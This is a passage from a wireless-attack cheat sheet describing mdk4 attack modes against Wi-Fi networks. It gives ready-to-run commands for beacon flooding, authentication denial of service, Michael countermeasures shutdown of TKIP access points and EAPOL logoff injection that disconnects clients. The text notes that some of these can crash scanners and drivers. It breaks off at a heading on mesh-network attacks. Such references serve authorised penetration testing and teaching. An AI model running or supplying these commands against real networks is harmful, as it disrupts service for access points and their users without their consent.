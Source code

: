 **ATTACK MODE b: Beacon Flooding**

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```

**ATTACK MODE a: Authentication Denial-Of-Service**

Sending authentication frames to all accessible Access Points (APs) within range can overload these APs, especially when numerous clients are involved. This intense traffic can lead to system instability, causing some APs to freeze or even reset.

```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```

**ATTACK MODE p: SSID Probing and Bruteforcing**

Probing Access Points (APs) checks if a SSID is properly revealed and confirms the AP's range. This technique, coupled with **bruteforcing hidden SSIDs** with or without a wordlist, helps in identifying and accessing concealed networks.

**ATTACK MODE m: Michael Countermeasures Exploitation**

Sending random or duplicate packets to different QoS queues can trigger Michael Countermeasures on **TKIP APs**, leading to a one-minute AP shutdown. This method is an efficient **DoS** (Denial of Service) attack tactic.

```bash
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
```

**ATTACK MODE e: EAPOL Start and Logoff Packet Injection**

Flooding an AP with **EAPOL Start frames** creates **fake sessions**, overwhelming the AP and blocking legitimate clients. Alternatively, injecting **fake EAPOL Logoff messages** forcibly disconnects clients, both methods effectively disrupt network service.

```bash
# Use Logoff messages to kick clients
mdk4 wlan0mon e -t EF:60:69:D7:69:2F [-l]
```

**ATTACK MODE s: Attacks for IEEE 802.11s mesh networks**
